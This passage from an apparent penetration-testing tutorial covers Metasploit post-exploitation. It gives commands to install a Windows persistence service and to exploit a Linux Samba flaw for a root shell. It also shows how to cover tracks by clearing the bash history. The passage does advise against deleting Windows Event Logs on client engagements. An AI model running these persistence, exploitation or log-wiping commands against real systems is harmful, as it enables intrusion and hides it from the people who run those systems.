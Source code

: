 * In the context of Windows, a typical post-exploitation technique pertinent to clearing your tracks is to delete the Windows Event Log. This is something that should be avoided during a penetration test as the Windows Event Log stores a lot of data that is important to the client you are performing the penetration test for.

```bash
msf6> use exploit/windows/local/persistence_service
msf6> set session 1
msf6> set lport 445
msf6> run
```

Once you run the command, you can go to loot and copy the path file of the module script.

```bash
msf6> resource /root/.../script
```

#### Linux

```bash
msf6> set rhosts 192.143.174.3
msf6> use exploit/linux/samba/is_known_pipename
msf6> run

/bin/bash -i

root@victim> cd /tmp
root@victim> history -c                     # method 1
root@victim> cat /dev/null > .bash_history  # method 2
```
